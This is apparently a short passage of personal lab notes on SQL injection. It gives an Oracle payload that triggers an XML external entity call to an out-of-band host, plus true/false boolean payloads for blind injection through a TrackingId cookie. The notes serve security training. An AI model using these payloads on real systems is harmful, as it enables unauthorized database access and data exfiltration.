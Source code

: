 ![](Pasted%20image%2020250222210030.png)

> Additional SQLi payload with XML for reference with `||` the SQL concatenation operator to concatenate two expressions that evaluate two character data types or to numeric data type and do some obfuscating.

```js
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % fuzz SYSTEM "http://OASTI'||'FY.COM/">%fuzz;]>'),'/l') from dual)||'
```

### LAB: Blind SQLi Conditional Response `trackingId` `Welcome back!`

> This blind SQL injection is _**identified**_ by a small message difference in the responses. When sending a valid true SQL query the response contain `Welcome back` string in response. Invalid false SQL query statement do not contain the response conditional message.

```js
TrackingId=xyz' AND '1'='1
```

> False SQL statement to _**identify**_ conditional message not in response.

```js
TrackingId=xyz' AND '1'='2
```
